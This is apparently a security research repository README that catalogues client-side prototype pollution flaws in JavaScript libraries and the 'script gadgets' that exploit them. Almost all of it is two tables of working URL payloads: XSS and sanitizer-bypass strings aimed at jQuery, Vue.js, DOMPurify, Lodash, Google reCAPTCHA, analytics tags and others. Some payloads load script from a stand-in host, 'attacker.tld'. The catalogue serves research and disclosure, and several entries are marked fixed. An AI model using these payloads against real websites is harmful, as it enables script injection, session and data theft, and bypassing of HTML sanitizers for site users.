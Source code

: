 # Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                              | Payload                                                                  | Refs                                        | Found by                                         |
|-------------------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                                 | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)          | `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                           | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)                         | `?__proto__.test=test`<br>`?__proto__[test]=test`<br>`?__proto__[test]={"json":"value"}`|                              | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)                   | `?__proto__.test=test`<br>`?constructor.prototype.test=test`<br>`?__proto__.array=1\|2\|3`| [[1]](https://bugcrowd.com/disclosures/57b28008-4653-4dec-88c3-4d38e40023ff/toolbox-teslamotors-com-html-injection-via-prototype-pollution-potential-xss) | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                                   | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [MooTools More](/pp/mootools-more.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Swiftype Site Search (**Fixed**)](/pp/swiftype-site-search.md)   | `#__proto__[test]=test`                                                  |                                             | [s1r1us](https://twitter.com/S1r1u5_)            |
| [CanJS deparam](/pp/canjs-deparam.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Rahul Maini](https://twitter.com/iamnoooob)     |
| [Purl (jQuery-URL-Parser)](/pp/purl.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [HubSpot Tracking Code (**Fixed**)](/pp/hubspot.md)               | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [YUI 3: Yahoo User Interface Library querystring-parse](/pp/yui3.md)| `?constructor[prototype][test]=test`                                   |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get](/gadgets/jquery.md#get-jquery-all-versions) | `?__proto__[context]=<img/src/onerror%3dalert(1)>&__proto__[jquery]=x`     | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300)    | `?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`        | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300-1)  | `?__proto__[url]=data:,alert(1)//&__proto__[dataType]=script&__proto__[crossDomain]=`| XSS |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md#getscript-jquery--340) | `?__proto__[src][]=data:,alert(1)//`                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md##getscript-jquery-300---331) | `?__proto__[url]=data:,alert(1)//`                 | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $(html)](/gadgets/jquery.md#html-jquery-all-versions)  | `?__proto__[div][0]=1&__proto__[div][1]=<img/src/onerror%3dalert(1)>&__proto__[div][2]=1`| XSS    |                                            | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).off](/gadgets/jquery.md#xoff-jquery-all-versions) | `?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(1)>`| XSS    |                         | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1&__proto__[src]=//attacker.tld/js.js`                | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1&__proto__[url]=//attacker.tld/js.js`                     | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[innerText]=<script>alert(1)</script>`                             | Bypass            | [[1]](https://github.com/apostrophecms/sanitize-html/commit/0fe551c2c6fac1277c0b9688263bd61acc52baf8)| [Hpdoger](https://twitter.com/hpdoger)              |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src`      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src`          | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1`                              | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)`   | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Swiftype Site Search](/gadgets/swiftype-site-search.md)| `?__proto__[xxx]=alert(1)`                                                    | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Embedly Cards](/gadgets/embedly.md)                    | `?__proto__[onload]=alert(1)`                                                 | XSS               |                                                   | [Guilherme Keerok](https://twitter.com/k33r0k)      |
| [Segment Analytics.js](/gadgets/segment-analytics.md)   | `?__proto__[script][0]=1&__proto__[script][1]=<img/src/onerror%3dalert(1)>&__proto__[script][2]=1`| XSS               |                               | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Knockout.js](/gadgets/knockout.md)                     | `?__proto__[4]=a':1,[alert(1)]:1,'b&__proto__[5]=,`                           | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Zepto.js](/gadgets/zepto.md)                           | `?__proto__[onerror]=alert(1)`                                                | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Sprint.js](/gadgets/sprint.md)                         | `?__proto__[div][intro]=<img%20src%20onerror%3dalert(1)>`                     | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-if]=_c.constructor('alert(1)')()`                               | XSS               |                                                   | [POSIX](https://twitter.com/po6ix)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[attrs][0][name]=src&__proto__[attrs][0][value]=xxx&__proto__[xxx]=data:,alert(1)//&__proto__[is]=script`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-bind:class]=''.constructor.constructor('alert(1)')()`        | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [r00timentary](https://ctftime.org/team/32783)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[data]=a&__proto__[template][nodeType]=a&__proto__[template][innerHTML]=<script>alert(1)</script>`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [SuperGuesser](https://twitter.com/SuperGuesser)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[props][][value]=a&__proto__[name]=":''.constructor.constructor('alert(1)')(),"`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [st98_](https://twitter.com/st98_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[template]=<script>alert(1)</script>`  | XSS | [[1]](https://github.com/aszx87410/ctf-writeups/issues/24) | [huli](https://github.com/aszx87410/)               |